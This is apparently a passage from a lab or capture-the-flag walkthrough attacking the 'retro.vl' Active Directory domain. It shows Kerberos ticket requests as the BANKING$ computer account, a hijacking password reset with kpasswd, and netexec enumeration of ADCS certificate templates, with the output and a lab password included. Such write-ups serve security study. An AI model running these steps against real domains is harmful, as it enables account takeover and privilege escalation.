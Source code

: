 ### Kerberos Authentication and Password Reset

```
kinit 'BANKING$@RETRO.VL'
Password for BANKING$@RETRO.VL:

klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: BANKING$@RETRO.VL

Valid starting       Expires              Service principal
08/23/2025 15:29:17  08/24/2025 01:29:17  krbtgt/RETRO.VL@RETRO.VL
        renew until 08/24/2025 15:29:13
```

Successfully obtaining a Kerberos ticket confirms that the `BANKING$` account credentials are valid. We can now change the password to gain more reliable access.

```
kpasswd BANKING$
Password for BANKING$@RETRO.VL:
Enter new password:
Enter it again:
Password changed.
```

The password change operation succeeds, giving us full control over the `BANKING$` computer account with our chosen password.

---

# Phase 7: Certificate Services Discovery

With control of a computer account, we can now enumerate `Active Directory Certificate Services (ADCS)` infrastructure, which often presents privilege escalation opportunities.

### ADCS Enumeration

```
netexec ldap 10.10.83.167 -u BANKING$ -p 'newpassword' -M adcs -o SERVER=retro-DC-CA

LDAP        10.10.83.167    389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:retro.vl) (signing:None) (channel binding:Never)
LDAP        10.10.83.167    389    DC               [+] retro.vl\BANKING$:silver88
ADCS        10.10.83.167    389    DC               Using PKI CN: retro-DC-CA
ADCS        10.10.83.167    389    DC               [*] Starting LDAP search with search filter '(distinguishedName=CN=retro-DC-CA,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,'
ADCS        10.10.83.167    389    DC               Found Certificate Template: RetroClients
ADCS        10.10.83.167    389    DC               Found Certificate Template: DirectoryEmailReplication
ADCS        10.10.83.167    389    DC               Found Certificate Template: DomainControllerAuthentication
ADCS        10.10.83.167    389    DC               Found Certificate Template: KerberosAuthentication
ADCS        10.10.83.167    389    DC               Found Certificate Template: EFSRecovery
ADCS        10.10.83.167    389    DC               Found Certificate Template: EFS
ADCS        10.10.83.167    389    DC               Found Certificate Template: DomainController
ADCS        10.10.83.167    389    DC               Found Certificate Template: WebServer
ADCS        10.10.83.167    389    DC               Found Certificate Template: Machine
ADCS        10.10.83.167    389    DC               Found Certificate Template: User
ADCS        10.10.83.167    389    DC               Found Certificate Template: SubCA
ADCS        10.10.83.167    389    DC               Found Certificate Template: Administrator
```
